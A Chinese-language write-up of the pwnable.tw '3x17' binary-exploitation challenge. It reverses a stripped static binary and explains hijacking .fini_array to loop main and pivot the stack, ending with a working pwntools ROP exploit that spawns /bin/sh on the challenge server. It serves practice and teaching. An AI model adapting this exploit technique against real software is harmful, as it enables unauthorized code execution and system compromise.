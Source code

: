 ```yaml
---

title: pwnable.tw writeup - 3x17
lang: zh
layout: article
show_subscribe: false
tags: [ctf,pwn]

---
```


[ 3x17 题目链接](https://pwnable.tw/challenge/#32)

```bash
z1933@1933:~/workplace/vbshare/ctf 
$ file 3x17 
3x17: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=a9f43736cc372b3d1682efa57f19a4d5c70e41d3, stripped
z1933@1933:~/workplace/vbshare/ctf 
$ checksec 3x17
[*] '/home/z1933/workplace/vbshare/ctf/3x17'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
z1933@1933:~/workplace/vbshare/ctf 
```

静态链接 + 去符号。在入口点找到 main 函数。


根据 [Linux Standard Base Specification 3.1__libc_start_main](https://refspecs.linuxbase.org/LSB_3.1.0/LSB-generic/LSB-generic/baselib---libc-start-main-.html) 。__libc_start_main 传入的第一个参数就是 main 函数的地址。

找到了 main 之后，反编译如下：

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  char *v4; // [rsp+8h] [rbp-28h]
  char buf[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  result = (unsigned __int8)++byte_4B9330;
  if ( byte_4B9330 == 1 )
  {
    write(1u, "addr:", 5uLL);
    read(0, buf, 24uLL);
    v4 = (char *)sub_40EE70(buf);
    write(1u, "data:", 5uLL);
    read(0, v4, 0x18uLL);
    result = 0;
  }
  if ( __readfsqword(0x28u) != v6 )
    cannaryfail();
  return result;
}
```

`sub_40EE70` 函数大概就是检查输入是不是一个数字,然后把字符转成数字返回。我分析时发现，里面有很多冗余(比如有的条件跳转实际上是一定会跳转或者不跳转的)，反编译结果不准确，只能对着汇编逆向分析。

对程序调试分析会发现 main 使得我们可以在可写的位置任意写 24 字节,然后程序退出。

好叭，到这里我就卡住了。参考了一下别人的题解: [pwnable.tw 3x17](https://www.cnblogs.com/Rookle/p/12884559.html) 才发现原来 main 函数在结束后还会执行 [__libc_start_main 参数列表](https://refspecs.linuxbase.org/LSB_3.1.0/LSB-generic/LSB-generic/baselib---libc-start-main-.html) 中的  `void (*fini) (void)` 函数,也就是倒数第三个函数即 `0x402960` 处的函数,在 IDA 中我把它命名为 `_libc_fini` 函数。

`_libc_fini` 函数会倒序执行 `.fini_array` 节中的表所存的函数。

`_libc_fini` 函数的反编译:

```cpp
__int64 libc_fini()
{
  signed __int64 v0; // rbx

  if ( (&finiend - (_UNKNOWN *)fini0) >> 3 )
  {
    v0 = ((&finiend - (_UNKNOWN *)fini0) >> 3) - 1;
    do
      fini0[v0--]();
    while ( v0 != -1 );
  }
  return term_proc();
}
```

`finiend` 是 `.fini_array` 节的开始位置， `finiend` 是 `.fini_array` 节的结束位置。从反编译可以看出是倒序调用的。 `.fini_array` 节权限是可写的。

如果我们把 fini[1] 写入 main 函数的地址, fini[0] 写入 `_libc_fini` 函数,那么我们就可以循环调用 main 函数。就有很多次写的机会了。

**调用链:**

```
                                                                                                                              
+--------------------+                     +-----------------------------+                                                    
|                    |                     |                             |                     +-----------------------------+
|                    |                     |          fini[1] 调用       |                     |                             |
|          main     ------------------------>                          ------------------------->        fini[0] 调用        |
|                    |                     |           main              |                     |                             |
|                    |                     |                             |                     |        libc_fini            |
+--------------------+                     +--------------^--------------+                     +--|--------------------------+
                                                          |                                       |                           
                                                          |                                       |                           
                                                          |                                       |                           
                                                          |                                       |                           
                                                          |                                       |                           
                                                          |---------------------------------------+                           
                                                                                                                              
                                                                                                                              
                     
```

现在我们可以在可写地址，写任意值。想到用 ROP 来 getshell 。因为不知道栈地址，不能往栈上写。但我们可以控制 `fini[1], fini[0]` 两处的gadget 。我们知道 `leave` 指令等价于:

```
mov rsp,rbp
pop rbp
```

要是能用 leave 指令把栈指针 rsp 移到一个我们写 gadget 的地方就好了。所以我们需要观察 rbp ,让 rbp 指向一个我们写 gadget 的位置,再用 leave 指令，就转移了栈指针。 在看 `_libc_fini` 函数的反汇编时会发现 rbp 会被初始化为  `.fini_array` 表的起始地址, 然后调用 fini[1]，  fini[0]。 如果我们把 `fini[0]` 写入 `leave;ret` gadget , `fini[1]` 写 `ret` gadget , 这样在最后就可以把栈转移到  `.fini_array` 节中了,还可以退出 main 的循环。


## exp:

```python
#!/usr/bin/env python3
from struct import pack
from pwn import *

HOST='chall.pwnable.tw'
PORT=10105
PROC="./3x17"

io=None

if len(sys.argv) == 1 : 
    io=process(PROC)
else:
    log.info("remote start")
    # 设置代理
    context.proxy=(socks.SOCKS5,'localhost',7890)
    io=remote(HOST,PORT)

def write(addr,payload):
    io.sendafter('addr:',str(addr))
    io.sendafter('data:',payload)

fini_arry=0x4B40F0
main=0x0401B6D
libc_fini=0x402960

leave_ret=0x0000000000401c4b # leave ; ret
ret=0x0000000000401C4C

binsh="/bin/sh\x00"

rsp=0x4B4100

pop_rax_ret=0x000000000041e4af # pop rax ; ret
pop_rdx_rsi_ret=0x000000000044a309 # pop rdx ; pop rsi ; ret
pop_rdi_ret=0x0000000000401696 # pop rdi ; ret
syscall=0x00000000004022b4 # syscall

# 构造循环
write(fini_arry,p64(libc_fini)+p64(main))

# 写入gadget
write(rsp,p64(pop_rax_ret))
write(rsp+1*8,p64(0x3b))
write(rsp+2*8,p64(pop_rdx_rsi_ret))
write(rsp+3*8,p64(0))
write(rsp+4*8,p64(0))
write(rsp+5*8,p64(pop_rdi_ret))
write(rsp+6*8,p64(rsp+10*8))
write(rsp+7*8,p64(syscall))

# 找个可写的位置写binsh
write(rsp+10*8,binsh)

# 栈转移
write(fini_arry,p64(leave_ret)+p64(ret))

io.interactive()

```

